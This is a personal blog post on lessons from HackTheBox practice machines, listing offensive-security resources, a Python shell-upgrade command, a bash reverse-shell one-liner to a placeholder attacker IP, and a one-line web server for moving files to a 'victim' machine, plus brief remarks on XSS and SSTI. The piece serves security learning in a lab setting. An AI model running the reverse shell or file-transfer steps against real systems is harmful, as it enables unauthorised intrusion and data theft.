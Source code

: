 ```yaml
---
layout: post
title: What I've Learned from Hackthebox So Far
subtitle: Started it for a good time, and still going
# gh-repo: https://github.com/signalapp
# gh-badge: [star, fork, follow]
tags: [hackthebox, CTF, hack, hacking, informational]
comments: true
published: true
---
```


I recently reached the rank of hacker on hackthebox here is some of the cool things I learned along the way.

![encryption](/assets/img/hackthebox-logo.png){: .mx-auto.d-block :}

I have been doing hackthebox on the side for about a month now, so here is some of my thoughts and cool thing I learned while breaking into boxes.
I’m currently sitting at the very start of Hacker rank with 6 userowns, 5 root owns, and 4 challenges.
![encryption](/assets/img/hackthebox-logo.png){: .mx-auto.d-block :}


I will be mostly writing about my experience with boxes rather than the challenges since they taught me the most and I had the most fun finishing them.
Let’s dive in!

## Very Useful Githubs

### GTFOBins

[GTFOBins](https://gtfobins.github.io/) is basically a super collection of Unix binaries mostly focused on breaking restricted shells. I have a long list of binaries made for common Unix tools for breaking out of restricted shells and escalate privilege. I was a bit hard for me to follow the instructions at first, but after using them for a few machines, I think i have the gist of how to follow them.

### PayloadsAllTheThings

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is a super collection of a set of payloads for lots and lots of Windows, macOS, Linux, and ChromeOs software and tool. Most of them come with kali version of Metasploit but using them without a Metasploit taught me a lot about how these things work. I do recommend trying this webpage before Metasploit if you are sure to know where exactly the vulnerability is.

### PEAS(LinPeas)

After trying multiple enumeration tools I found the community favorite [PEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), and what a find this was. LinPeas (PEAS for linux) by far gave the most information of all the other ones and had everything color coded based on how critical they are. I LOVE THIS THING.


## Cool Scripts

### Spawn a Bash Shell from a Python Environment
stuck in a Python shell?
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

### Reverse Shell with One Line of Code
combine it with netcat and you are in for a good time.
~~~
bash -i >& /dev/tcp/<YOUR IP>/<THE PORT UR LISTENING ON> 0>&1 | sh
~~~

### Host a Webpage with One Line of Code
Need to download a file to the victims machine or the other way around?
~~~
python3 -m http.server <PORT NUMBER>
~~~

## Useful Websites

### Hash Identifier

During my journey, I came across multiple hashes that I didn’t know what they are. Which is a problem when it comes down to trying to decrypt. I know you can always look at hashcat and john examples to try and find out what kind hash you have. but using a website like [hashes.com](https://hashes.com/en/tools/hash_identifier) is much easier and faster.

### HackerOne, Intigirity, Bugcrowd and Other Bug Bounty Websites

Very useful in case you need a thorough read on a vulnerability. Since bug hunters need to have a write for the compony to receive their bounty, they usually have very thorough and in depth guide on how to recreate or abuse the bug they have found.

### Application User Manual

Lots of times, you know exactly what application you need to exploit because of all the hints, but you have know idea what your foothold is. Try reading the application manual. It always lists the set dependencies, privileges, default ports, etc. that can be later researched to find vulnerability in.

## Common Web Application Vulnerabilities

### XSS

XSS is often ignore if the website isn’t and multiuser environment like social media. Since it is mostly used to stead data from other users, but you can still use XSS to grab admin passwords of websites. The best bug hunters gained their fame from abusing XSS on Fortune 500 companies and gaining bank from it.

### SSTI

SSTI or Server-Side Template Injection is a very common vulnerability among web applications like flask running on Python. There is a very quick way of testing if a website is vulnerable to it as show below. It so quick to do its almost always worth a try.
![encryption](/assets/img/SSTI.png){: .mx-auto.d-block :}

## Linux Tools I Ended Up Using A lot

#### NETCAT 
Other than its usual usage like port listening, this is also used heavily in getting a reverse shell.

#### netpgp
Got a encrypted file?


## Skills I Want To Improve On

  - XSS
  - Java Script Injection
  - Not relying on Metasploit
  - Using r2 for reading binaries
  - Being More Observant
  - Not pressing Ctrl + C in a reverse shell -_-


{: .box-warning}
**Warning:** This post is meant to be educational and only used in ethical hacking. Please do not use any of the tools or commands mentioned here in a malicious way.
